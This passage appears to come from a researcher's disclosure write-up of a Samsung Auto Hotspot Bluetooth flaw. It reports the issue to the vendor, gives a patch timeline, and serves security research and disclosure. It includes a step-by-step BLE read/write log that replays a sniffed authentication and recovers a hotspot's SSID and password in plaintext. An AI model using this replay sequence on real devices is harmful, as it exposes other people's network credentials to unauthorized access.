 mUsertype 1 does not use Bluetooth encryption, so it can be sniffed or MitMed.
And AUTH_STATUS provides plaintext if MHS_VER is switched after authentication.

Together, this allows replaying the sniffed authentication and then requesting the AUTH_STATUS in plaintext.

```
1. Read  [MHS_SIDE_GET_TIME]: b'1694943365972'
2. Write [MHS_VER_UPDATE]: written: b'\x01\x01'
3. Write [NOTIFY_MHS_ENABLED]: written
4. Write [MHS_ENCRYPTED_AUTH_ID]: written: b'$BASE64_ENCODED_STRING'
5. Read  [AUTH_STATUS]: b'$BASE64_ENCODED_RESPONSE'
6. Write [MHS_VER_UPDATE]: written: b'\x01\x02'
7. Read  [AUTH_STATUS]: b"\x01\x17Erik's Galaxy S23 Ultra\x19SamsungReverseEngineering\x00xx:xx:xx\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
8. Parse [AUTH_STATUS]: {'MHSMAC': b'xx:xx:xx', 'password': b'SamsungReverseEngineering', 'SSID': b"Erik's Galaxy S23 Ultra"}
```

Line 4 shows a sniffed encrypted AUTH_ID replayed.
Line 5 shows an encrypted AUTH_STATUS.
Line 6 shows MHS_VER changing to mUsertype 2.
Line 7 shows plaintext AUTH_STATUS.

# Samsung timeline

- 2023-09-18 Shared my report with Samsung
- 2023-09-19 Samsung replies a Security Analyst is assigned
- 2023-10-02 I add more details
- 2023-10-20-2023-11-10 Back and forth with Samsung
- 2023-12-04 Samsung is preparing the patch with their development team
- 2024-01-08 Samsung confirms vulnerability and concludes severity is High.
- 2024-02-06 Samsung awards monetary reward

# Side-notes

Currently, August 2024, Auto Hotspot is broken when Secure Folder is also active. As soon as WiFi list is enabled on your secondary device, Auto Hotspot turns off on the Auto Hotspot device. Solution is to uninstall “Secure Folder” on the “Auto Hotspot” device. 

[Auto hotspot turning off : r/GalaxyS23 (reddit.com)](https://www.reddit.com/r/GalaxyS23/comments/1bs8rid/comment/l7ct2ts/)

# Curiousities

## AES
